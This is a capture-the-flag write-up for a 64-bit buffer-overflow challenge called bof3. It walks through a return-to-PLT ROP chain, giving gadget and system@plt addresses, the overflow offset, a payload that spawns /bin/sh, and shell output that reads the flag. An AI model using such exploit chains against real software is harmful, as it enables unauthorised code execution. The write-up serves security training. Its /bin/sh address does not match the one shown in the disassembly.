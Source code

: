 # bof3
Pwn

## Challenge 

Where do you go when you can no longer call getflag()?

nc challs.hats.sg 1303

UPDATED Reading material:

https://www.ret2rop.com/2018/08/return-to-plt-got-to-bypass-aslr-remote.html (Return to PLT section)
Author: @dickheadedzed

## Hint

system() is such a weird function. It asks so much from the caller! One, which you might have encountered, is the stack alignment issue. Another is that there is actually a second argument to system(), that should be null. Or, in terms of assembly, you will need to set RSI to 0 before calling system()

## Solution

Reference: 

- https://www.pwndiary.com/write-ups/p-w-n-ctf-2018-babypwn-write-up-pwn115/
- https://bitvijays.github.io/LFC-BinaryExploitation.html#find-the-offset-of-system-exit-and-bin-sh
- https://www.ret2rop.com/2018/08/return-to-plt-got-to-bypass-aslr-remote.html

Decompiled code

	int main() {
	    banner();
	    read(0x0, &var_20, 0x100);
	    printf("uh so ok, %s, seems like getflag aint workin. have fun bye! try /bin/sh", &var_20);
	    return 0x0;
	}

### Return to PLT attack on 64-bit system.

In hopper decompiler, find the addresses.

Find address of system@plt:

	system@GOT:        // system
	0000000000404020         dq         0x0000000000405008      ; DATA XREF=j_system

	j_system:        // system
	0000000000401040         jmp        qword [system@GOT]      ; system, system@GOT, CODE XREF=getflag+28

Find address of `pop rdi`:

	# ROPgadget --binary bof3 --only "pop|ret" | grep rdi
		0x00000000004012bb : pop rdi ; ret

Find address of `/bin/sh`:

	aUhSoOkSSeemsLi:
	0000000000402060         db         "uh so ok, %s, seems like getflag aint workin. have fun bye! try /bin/sh", 0 ; DATA XREF=main+47

Hence we have the addresses:

	addr_pop_rdi = 0x4012bb
	addr_bin_sh  = 0x4020A0
	addr_system_plt = 0x401040

Fuzz for offset = 40.

	$ pwn cyclic 40 | strace ./bof3

Creating the payload

	addr_pop_rdi = 0x4012bb
	addr_bin_sh  = 0x4020A0
	addr_system_plt = 0x401040

	payload = 'A' * 40
	payload += p64(addr_pop_rdi)
	payload += p64(addr_bin_sh)
	payload += p64(addr_system_plt)

And put it into a python script

	$ python3 solve.py 
	b'*** WELCOME TO bof3.c ***\nuh so ok, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xbb\x12@, seems like getflag aint workin. have fun bye! try /bin/sh'
	ls -la
	total 64
	drwxr-x--- 1 0 1000  4096 Sep  9 09:43 .
	drwxr-x--- 1 0 1000  4096 Sep  9 09:43 ..
	-rwxr-x--- 1 0 1000   220 Aug 31  2015 .bash_logout
	-rwxr-x--- 1 0 1000  3771 Aug 31  2015 .bashrc
	-rwxr-x--- 1 0 1000   655 May 16  2017 .profile
	drwxr-x--- 1 0 1000  4096 Oct 19  2018 bin
	-rwxr-xr-x 1 0    0 16864 Sep  7 06:58 bof3
	drwxr-x--- 1 0 1000  4096 Oct 19  2018 dev
	-rw-r--r-- 1 0    0    20 Sep  6 17:31 flag
	drwxr-x--- 1 0 1000  4096 Oct 19  2018 lib
	drwxr-x--- 1 0 1000  4096 Oct 19  2018 lib32
	drwxr-x--- 1 0 1000  4096 Oct 19  2018 lib64
	cat flag
	HATS{r0p_r0p_no0se}

## Flag

	HATS{r0p_r0p_no0se}
